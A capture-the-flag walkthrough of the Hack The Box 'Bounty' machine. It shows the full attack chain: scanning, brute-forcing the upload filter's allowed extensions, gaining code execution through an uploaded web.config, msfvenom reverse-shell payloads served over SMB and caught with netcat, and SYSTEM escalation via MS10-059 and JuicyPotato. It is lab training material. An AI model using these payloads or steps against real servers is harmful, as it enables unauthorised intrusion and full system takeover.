# [Bounty](https://app.hackthebox.eu/machines/142)

Start of with `nmap`:

```bash
# find open TCP ports
masscan -p1-65535 10.10.10.93 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS --script "default,safe" -p $tcpports -oA tcp --open -Pn -sV 10.10.10.93 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.93
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.93
```

The quick TCP scan returns the following:



Start the following web scanners:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.93/ --maxtime=120s --output nikto.txt
gobuster dir -t 100 -q -z -o gobuster.txt -u http://10.10.10.93/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt &
```

Browse to the site manually at `http://10.10.10.93/` to see the following:


Nothing interesting here in the HTML source either... The `nikto` scan returns some interesting results:



Looks like the server is running the ASP NET framework version 2.0.50727. Looking for an exploit for this version leads to only 1 CVE & no public exploit:

- https://www.cvedetails.com/vulnerability-list/vendor_id-26/product_id-2002/version_id-65025/Microsoft-.net-Framework-2.0.50727.html

However, knowing the backend server, rerun the web scan looking for ASP webpages with filename extensions `asp` and `aspx`:

- https://stackoverflow.com/questions/4462559/difference-between-asp-and-aspx-pages

```bash
gobuster dir -t 100 -q -z -o gobuster_asp.txt -u http://10.10.10.93/ \
  -x asp,aspx \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt &
```

This returns an additional file beyond just the standard `UploadedFiles` directory that the original `gobuster` did:



Browsing to `/transfer.aspx` shows the following:



Maybe these files are uploaded to the directory `UploadedFiles`? Test by uploading a file `bubba.txt` and trying to browse to it at `/UploadedFiles/bubba.txt`. 

```bash
echo 'BUBBA' > bubba.txt
```

However, this returns the error `Invalid File. Please try again`. Maybe it only likes certain files? 

```bash
mv bubba.txt bubba.jpg
```

Trying `bubba.jpg` gets a successful upload with the message `File uploaded successfully`! Browsing to `/UploadedFiles/bubba.jpg` gives the following:



Nice! Maybe it is possible to upload a ASP webshell? First generate one:

- https://netsec.ws/?p=331

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -f asp > bubba.asp
```

However, uploading this also returns an `Invalid File. Please try again` message. Probably need to try harder to find a file extension that will pass inspection... All ASP.NET file types can be found here:

- https://docs.microsoft.com/en-us/previous-versions/aspnet/2wawkw1c(v=vs.100)

Extract all the fielname extensions with the following command:

```bash
curl -s "https://docs.microsoft.com/en-us/previous-versions/aspnet/2wawkw1c(v=vs.100)" | \
  grep -oP "<p>\.(.*)</p>" | sed 's/<p>//g' | sed 's/<\/p>//g' | sed 's/ //g' | tr '\n' ',' | sed 's/,$//g'
```

This gives a list of the following:

```
.asax,.ascx,.ashx,.asmx,.aspx,.axd,.browser,.cd,.compile,.config,.cs,.jsl,.vb,.csproj,.vbproj,vjsproj,.disco,.vsdisco,.dsdgm,.dsprototype,.dll,.licx,.webinfo,.master,.mdb,.ldb,.mdf,.msgx,.svc,.rem,.resources,.resx,.sdm,.sdmDocument,.sitemap,.skin,.sln,.soap,.asa,.asp,.cdx,.cer,.idc,.shtm,.shtml,.stm,.css,.htm,.html
```

In order to test these values, the HTML source of `/transfer.aspx` is needed to automate the requests:



There are 4 values to send in the HTTP POST request. 2 of them, `__VIEWSTATE` and `__EVENTVALIDATION`, are generated tokens for each request. So they need to be fetched in an HTTP GET request first. This list can now be tested in the following Python script:

```python
import io
import re
import requests

ext = '.asax,.ascx,.ashx,.asmx,.aspx,.axd,.browser,.cd,.compile,.config,.cs,.jsl,.vb,.csproj,.vbproj,vjsproj,.disco,.vsdisco,.dsdgm,.dsprototype,.dll,.licx,.webinfo,.master,.mdb,.ldb,.mdf,.msgx,.svc,.rem,.resources,.resx,.sdm,.sdmDocument,.sitemap,.skin,.sln,.soap,.asa,.asp,.cdx,.cer,.idc,.shtm,.shtml,.stm,.css,.htm,.html'

for e in ext.split(','):
  print(f'[*] trying {e} ...')
  s = requests.Session()
  r = s.get('http://10.10.10.93/transfer.aspx')
  __viewstate = re.findall(r'id="__VIEWSTATE" value="(.*)"', r.text)
  __eventvalidation = re.findall(r'id="__EVENTVALIDATION" value="(.*)"', r.text)
  if not __viewstate or not __eventvalidation:
    print(f'[-] failed to get session values: __VIEWSTATE, __EVENTVALIDATION')
    exit()
  # create an in-memory file to send
  r = requests.post('http://10.10.10.93/transfer.aspx', files=[
        # use a generic MIME type: 
        # https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types
        ('FileUpload1', (f'file{e}', io.StringIO('test'), 'application/octet-stream'))
      ], data={
        'btnUpload': 'Upload',
        '__VIEWSTATE': __viewstate[0],
        '__EVENTVALIDATION': __eventvalidation[0],
      })
  if 'Invalid File. Please try again' not in r.text:
    print('[*] --> file was uploaded!')
```

An running this script generates the following output:



So a `.config` file can be uploaded? Some quick Googling for `.config net asp code execution` lands the following:

- https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

The blog explains the process of using `web.config` uploaded to a sub-directory to gain control of that directory under the NET framework. The blog also links to a full writeup here:

- https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/

- https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/

The links say that if the IIS server supports execution of ASP, that the following `web.config` will allow for ASP code execution and display `3` when browsing to the file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

To test, try uploading the file as `web.config` and browsing to `http://10.10.10.93/uploadedfiles/web.config`:



Nice! Now replace the following lines in the file:

```
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
```

With the following ASP code:

```bash
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("\\10.10.14.17\BUBBA\bubba.exe &")
```

Then generate new payload, host the payload, and start the following listener. Then upload the modified `web.config`:

```bash
# generate payload
msfvenom --platform windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -f exe -o bubba.exe
# host the payload
sudo impacket-smbserver BUBBA .
# listen for the callback
nc -nvlp 6969
```

And that provides a shell & `user.txt`:



During system enumeration, it is seen that there are no hotfixes installed. This is a likely indicator that a kernel exploit may be available:

```bash
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```



Using the tool `wesng` (https://github.com/bitsadmin/wesng), look for a kernel exploit:

```bash
git clone https://github.com/bitsadmin/wesng
python3 wesng/wes.py --update
python3 wesng/wes.py ./systeminfo.txt -o vulns.csv -e -i "Elevation of Privilege"
sort -t ',' -k 1 vulns.csv
cat vulns.csv | grep -oP "http(.*)\""
```

However, the output isn't promising:



Of the list, only the following URL look promising:

- http://www.exploit-db.com/exploits/15609/

But the list of supported kernels does not list the target's:

```bash
Windows Vista/2008 6.1.6000 x32,
Windows Vista/2008 6.1.6001 x32,
Windows 7 6.2.7600 x32,
Windows 7/2008 R2 6.2.7600 x64. # not 6.1.7600 N/A Build 7600
```

Next use the older tool `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to look for older exploits:

```bash
# download and install
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python2.7 get-pip.py
python2.7 -m pip install xlrd
# run
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-09-29-mssb.xls --systeminfo ./systeminfo.txt
```

From that tool, there is more output:



MS10-059 is a solid choice since it is already found pre-compiled at https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059. Just download, upload, and execute:

```bash
# on kali, download exploit:
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
# on kali, host exploit:
sudo impacket-smbserver BUBBA .
# on target, download exploit:
robocopy \\10.10.14.17\BUBBA\ %TEMP% MS10-059.exe /copy:DT /w:1 /r:1 /v
# on target, run exploit:
%TEMP%\MS10-059.exe
```

However, the exploit returns the following usage statement:

```
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
```

Starting another local listener and re-running gives a SYSTEM shell:

```bash
# on kali
nc -nvlp 7777
# on target 
%TEMP%\MS10-059.exe 10.10.14.17 7777
```



But this is too simple. Try another way... Looking at user privileges shows an interesting one:



A quick Google search for `seimpersonateprivilege privilege escalation` lands the following link:

- https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato

The tool project page is here:

- https://github.com/ohpe/juicy-potato

Using the tool is simple enough:

````bash
# on kali, make a new shell payload
msfvenom --platform windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=7777 -f exe -o bubba.root.exe
# on kali, download JuicyPotato.exe
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
# on kali, host binaries:
sudo impacket-smbserver BUBBA .
# on kali, start a new listener
nc -nvlp 7777
# on target, download binaries
robocopy \\10.10.14.17\BUBBA\ %TEMP% JuicyPotato.exe /copy:DT /w:1 /r:1 /v
robocopy \\10.10.14.17\BUBBA\ %TEMP% bubba.root.exe /copy:DT /w:1 /r:1 /v
# on target, run exploit
%TEMP%\JuicyPotato.exe -l 9876 -p %TEMP%\bubba.root.exe -t *
````

And this also provides a SYSTEM shell!